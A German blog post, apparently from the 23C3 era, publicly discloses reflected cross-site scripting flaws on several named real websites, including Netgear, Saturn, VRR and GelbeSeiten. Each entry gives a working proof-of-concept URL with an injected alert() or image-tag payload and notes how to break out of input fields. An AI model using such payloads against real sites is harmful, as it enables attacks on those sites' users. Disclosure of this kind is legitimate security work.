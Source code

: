 <html><body><p>Auf dem 23C3 in Berlin wurden einige interessante Hacks vorgestellt, und im Wiki tauchte eine kleine Liste auf, was wo wie exploitbar ist. Unter anderem waren auch ein paar wenige Cross-Site-Scripting Sachen dabei. Mich hat es etwas gewundert, dass es wirklich nur wenige waren, und da dachte ich mir, schaust du mal, was heutzutage noch so alles geht.<br>

<br>

Das Ergebnis war leider etwas erschreckend, unter den angreifbaren Seiten waren nicht nur namhafte Netzwerk-Hardware Hersteller, sondern auch der Verkehrsverbund-Rhein-Ruhr, die Gelben-Seten und Das Örtliche. Ich bin kein Black-Hat oder so, möchte die Lücken dennoch hier mal veröffentlichen um die Aufmerksamkeit der Medien ein wenig zu pushen.<br>

<br>

Hier also die Lücken:<br>

<br>

<strong>Netgear</strong><br>

Auf netgear.de kann man ganz einfach einen "bösen" Link bauen:<br>

<a href="http://netgear.de/de/suche.html?q=%3Cscript%3Ealert('hallo')%3C/script%3E">http://netgear.de/de/suche.html?q=%3Cscript%3Ealert('hallo')%3C/script%3E</a><br>

Einfach als Such-Query etwas wie <strong>&lt;script&gt;...&lt;/script&gt;</strong> eingeben.<br>

Netterweise geht das selbe auch auf netgear.com, obwohl deren Flash erstmal bei &lt; im Query das Formular nicht abschicken will, aber wozu gibts Links?<br>

<a href="http://netgear.com/Search.aspx?text=%3Cscript%3Ealert('a')%3C/script%3E">http://netgear.com/Search.aspx?text=%3Cscript%3Ealert('a')%3C/script%3E</a><br>

<br>

<strong>Saturn</strong><br>

saturn.de ist ganz schlau, man kann nur rein, wenn man ein Cookie gesetzt hat. Also kurz auf <a href="http://www.saturn.de">http://www.saturn.de</a> gehen, irgend eine Filiale ausswählen und...<br>

<a href="http://www.saturn.de/frontend/offer/index.cfm?fa=prod_result_agr&amp;prod_search_txt=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3E">saturn.de</a> den Link anklicken.<br>

Hier hat man wieder einen typischen Such-Fehler, aber man muss vor dem &lt;script&gt; ein <strong>"&gt;</strong> reinklatschen, damit das input-Feld zuende ist.<br>

<br>

<strong>Subway</strong><br>

Genau das Gleiche passiert auch auf der Seite von Subway, wenn man eine Filiale suchen möchte:<br>

<a href="http://www.subway-sandwiches.de/index.php?id=572&amp;swords=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3E&amp;search.x=0&amp;search.y=0">subway-sandwiches.de</a><br>

<br>

<strong>VRR</strong><br>

Wer gerne Online den Fahrplan nachguckt, sollte vrr.de nicht vertrauen:<br>

<a href="http://vrr.de/cgi-bin/search.pl?query=%22%3E%3Cscript%3Ealert(%22a%22)%3C/script%3Esearch_left=Suchen">vrr.de</a><br>

Wieder der selbe Fehler, der netterweise auch auf rheinbahn.de existiert.<br>

<br>

<strong>YellowMap</strong><br>

Den Weg zum 23C3 in Berlin findet man am besten mit yellowmap.de:<br>

<a href="http://www.yellowmap.de/YM/Poi/Poi.aspx?Catchword=%22%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E">yellowmap.de</a><br>

Hier wollte ein Script irgendwie nicht, aber das Bild ist doch auch nett, oder?<br>

<br>

<strong>Das Örtliche</strong><br>

Suchmaschinen sind was feines, wenn man vor der Suche weiß, was sie finden:<br>

<a href="http://www2.dasoertliche.de/?buc=&amp;title=%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E&amp;page=0&amp;context=0&amp;verlNr=&amp;verlName=&amp;verlUrl=&amp;verlServer=&amp;la=de&amp;cmd=cmd_nav_profile&amp;form_name=meinoetb&amp;action=3&amp;la=de">dasoertliche.de</a><br>

Hier ist übrigens ausnahmsweise nicht die Suche schuld, sondern das dynamische erstellen des Seitentitels aus der URL.<br>

<br>

<strong>GelbeSeiten</strong><br>

Die Krönung war aber die Seite der GelbeSeiten, die Suchfelder für Was und Wo werden nämlich sauber nach "komischen" Zeichen gefiltert, aber die Suche in den Treffern ist angreifbar:<br>

<a href="http://www1.gelbeseiten.de/yp/detailFilterAction.yp;jsessionid=1F9B1BE39A581F611AAF52A864AD87C4.gs1TomcatNode2?at=yp&amp;location=berlin&amp;subject=congress&amp;subscriberLookupID=46575&amp;tradeLookupID=46574&amp;button=top&amp;sortBy=&amp;firstLetter=&amp;tradeFilter=choice&amp;functionFilter=choice&amp;detailTop=%22%3E%3Cscript%3Ealert%28%27a%27%29%3C%2Fscript%3E">gelbeseiten.de</a> (leider ist da eine SessionID drin, aber da kommt man bestimmt auch drumherum)<br>

<br>

Ich verstehe einfach nicht, wie man so fahrlässig handeln kann, werde aber gleich die Betreiber der Seiten und Heise Security mit einem Link zu diesem Beitrag beglücken und hoffen, sie lernen was daraus.</p></body></html>